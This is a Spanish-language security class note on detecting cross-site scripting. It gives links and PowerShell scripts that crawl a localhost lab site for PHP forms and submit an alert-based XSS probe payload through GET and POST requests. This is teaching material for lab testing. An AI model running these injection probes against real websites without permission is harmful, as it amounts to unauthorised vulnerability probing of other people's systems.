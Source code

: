 # Corrección examen
* https://github.com/jesusninoc/ClasesSAD/blob/master/2020-12-02.md

# Detectar XSS
## Enlaces que permiten ir poco a poco comprendiendo XSS (dónde buscar un XSS y cómo darse cuenta de que ocurre)
* https://www.jesusninoc.com/12/05/obtener-enlaces-de-una-pagina-web/
* https://www.jesusninoc.com/12/06/obtener-los-enlaces-de-una-pagina-web-y-buscar-si-alguno-contiene-una-cadena-en-concreto/
* https://www.jesusninoc.com/12/06/obtener-los-enlaces-de-una-pagina-web-buscar-si-alguno-contiene-una-cadena-en-concreto-despues-recorrer-ese-enlace-y-detectar-si-se-encuentra-una-palabra-dentro-del-contenido-del-enlace-recorrido/
* https://www.jesusninoc.com/12/06/mostrar-informacion-sobre-los-formularios-que-se-encuentran-dentro-una-web/
* https://www.jesusninoc.com/12/06/obtener-los-enlaces-de-una-pagina-web-y-buscar-si-hay-formularios-en-cada-enlace/
* https://www.jesusninoc.com/12/06/realizar-una-peticion-al-formulario-de-una-pagina-web-automaticamente/
* https://www.jesusninoc.com/12/06/crear-una-funcion-que-pone-una-palabra-en-enfasis-dentro-de-una-frase/
* https://www.jesusninoc.com/12/06/realizar-una-peticion-al-formulario-de-una-pagina-web-automaticamente-y-comprobar-si-se-encuentra-lo-buscado-dentro-del-resultado/

## Ejemplo: verificar si en la página web que analizamos hay enlaces a códigos en php
```PowerShell
# Obtener el código de la web https://github.com/jesusninoc/Seguridad/tree/master/GetPost

$web = iwr "http://localhost/seguridad/GetPost/"
$web | Get-Member -MemberType Properties
$web.Links | %{
    if($_.outerText -match ".php")
    {
        $_.outerText
    }
}
```

## Ejemplo: comprobar en los enlaces de un sitio web si se encuentra algún fichero PHP y realizar una petición al formulario de forma automática buscando "<b onmouseover=alert('Wufff!')>click me!</b>"
```PowerShell
$web = iwr "http://localhost/seguridad/GetPost/"
$web.Links | %{
    if($_.outerText -match ".php")
    {
        $_.outerText
        $web2 = iwr ("http://localhost/seguridad/GetPost/"+$_.outerText)
        $url = "http://localhost/Seguridad/GetPost/"+$web2.Forms.action
        $web2.Forms.fields.nombre="<b onmouseover=alert('Wufff!')>click me!</b>"
        $web2.Forms.fields.edad=43
        Invoke-RestMethod -Uri $url -Method get -Body $web2.Forms.fields | Select-String "alert"
    }
}
```

## Ejemplo: realizar una petición al formulario de forma automática buscando "<b onmouseover=alert('Wufff!')>click me!</b>" (solución 1, distinto resultado de etiquetas)
```PowerShell
$web = iwr "http://localhost/Seguridad/GetPost/postindex.php"
$url = "http://localhost/Seguridad/GetPost/"+$web.Forms.action
$web.Forms.fields.nombre="<b onmouseover=alert('Wufff!')>click me!</b>"
$web.Forms.fields.edad=43
Invoke-RestMethod -Uri $url -Method Post -Body $web.Forms.fields
```

## Ejemplo: realizar una petición al formulario de forma automática buscando "<b onmouseover=alert('Wufff!')>click me!</b>" (solución 2, distinto resultado de etiquetas)
```PowerShell
$webget = iwr "http://localhost/seguridad/GetPost/exampleget.php?nombre=%3Cb%20onmouseover=alert(%27Wufff!%27)%3Eclick%20me!%3C/b%3E&edad=3&submit=Enviar"
$webget.Content
```
